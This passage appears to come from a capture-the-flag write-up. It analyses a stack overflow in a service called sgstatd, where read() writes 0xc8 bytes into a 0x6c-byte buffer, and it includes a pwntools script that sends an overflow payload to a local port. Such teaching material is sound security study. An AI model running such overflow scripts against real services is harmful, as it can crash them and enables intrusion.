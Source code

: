![06](img/06.png)

The [_read](http://linux.die.net/man/2/read) function takes in 3 arguments which is the top 3 value on the stack. 
- File descriptor to read from (0x00005a99 -> connected socket)
- Buffer to write to (0xffffce7c -> pointer to the 0x6c sized stack buffer created in sgstatd function)
- Number of bytes to read (0x00000000c8)

This part of the code then loops until exactly 0xc8 bytes of data is read OR the SIGALRM is raised which will kill the process. The vulnerability should be quite clear now

The read function is writing 0xc8 bytes of data into a buffer of size 0x6c. This is a stack overflow vulnerability albeit not a very standard one

Let's try giving it 0xc8 'A's and see what happens. The following script will do just that. Do note, you need to have [pwntools](https://github.com/Gallopsled/pwntools) installed to run the following code

```py
from pwn import *
context.os = 'linux'
context.arch = 'i386'
conn = remote("127.0.0.1", 4242)

print conn.recvuntil('users')

conn.send("X")
print conn.recvuntil('!')
print conn.recvuntil('!')
print conn.recvuntil('\x00')

pwn = 'A'*0xc8
conn.send(pwn)
```

![07](img/07.png)
